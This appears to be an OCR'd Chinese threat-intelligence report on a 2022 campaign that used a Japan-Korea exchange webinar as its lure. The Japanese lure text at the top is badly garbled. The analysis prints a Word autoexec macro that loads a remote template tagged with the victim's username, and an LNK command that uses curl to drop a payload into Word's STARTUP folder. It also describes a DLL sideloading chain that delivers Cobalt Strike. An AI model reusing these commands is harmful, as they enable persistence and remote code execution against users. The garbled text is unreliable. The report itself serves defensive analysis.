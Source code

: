 # 日韩文化交流基金東情勢交流会の開催  

口韩開の5橘良、「韩开係の姿、日本韓国の分野年携来門家記者招講演行。日韩のの特微基国間の保完の可能性考機会思。  

主、收主米中摩擦、北朝鲜の周题聚張感增寸中、束含世界勤<の。今回の交流会、国内外の專門家記者招、Webex通束国开、韓开保の未来深<羲上考之了主寸。  

1 日时 2022年6月23日（木）1 $4:00{-}16:30$   
2 開催場所 才(WebexMeetings)  
3 申达方法 参加希望方、申参照申  
<龙  
4 参加费 料  

### 点文件  

每当用户打开 Word 文件时，都会加载位于 Startup 文件夹中的 DOT 文件。DOT 文件中嵌入的宏如下：  

Sub autoexec()   
On Error Resume Next   
If ThisDocument.XMLSaveThroughXSLT <> Day(Now)  Then   
ThisDocument.XMLSaveThroughXSLT = Day(Now)   
Application.Documents.Open "http://resource.officehoster.com/w" + Environ   
("username") + "w.dot", Visible:=0   
ThisDocument.Save   
End If   
End Sub  

宏下载另一个DOT文件并执行该文件。攻击者在这个阶段已经有了用户环境信息，因为用户名包含在目标文件名中。我们在研究期间无法下载此DOT文件。  

## 相关攻击和事件  

### 2022年4月下旬的攻击案例  

在 2022 年4月下旬，我们确认可以从上一节中讨论的相同基础架构下载ISO 文件。攻击向量如下。  

![](https://cdn-mineru.openxlab.org.cn/extract/fc957422-9ded-43c4-928f-ea4d165af2e9/440e308873289bc6fe2001a47c072114c6444d5a64b354f2fe7859508d194a1c.jpg)  

除了诱饵文件外，ISO文件还包括一个合法的MicrosoftWordEXE文件和一个恶意DLL文件。DLL文件将在执行EXE文件时被旁加载和执行。  

DLL 文件是一个 UPX 打包的 Golang 下载器。DLL 文件从服务器下载 Cobalt StrikeStager并执行该文件。攻击者使用Cobalt Strike 提供的各种命令调查环境。  

执行的Cobalt StrikeStager使用的Config文件如下：  

![](https://cdn-mineru.openxlab.org.cn/extract/fc957422-9ded-43c4-928f-ea4d165af2e9/e1456f0a690aec4509481c5f1a52ae685b12e1eea94763aefafa5c84d19701fe.jpg)  

### 2022年4月上旬相关事件  

在2022年4月上旬，我们观察到对用于讨论活动的基础设施（IP地址）的出站访问。细节未知，但我们怀疑这种访问是考虑到攻击目标、时期和基础设施的讨论活动的一部分。  

### 2022年3月相关事件  

一个有趣的LNK 文件与讨论活动中使用的LNK 文件具有相似的特征，该文件于 2022年3月从日本发布到VirusTotal。  

C:\windows\system32\cmd.exe /c explorer https://6bfeeb71c.disknxt.com/ VmpJd01wwXlSb1JTYWsw/研修会案内.pdf & mkdir %appdata%\Microsoft\Word\STARTUP & curl -0 %appdata%\Microsoft\Word\STARTUP\f.dot https://6bfeeb71c.disknxt.com/ 1JTYwsw/annak.docx  
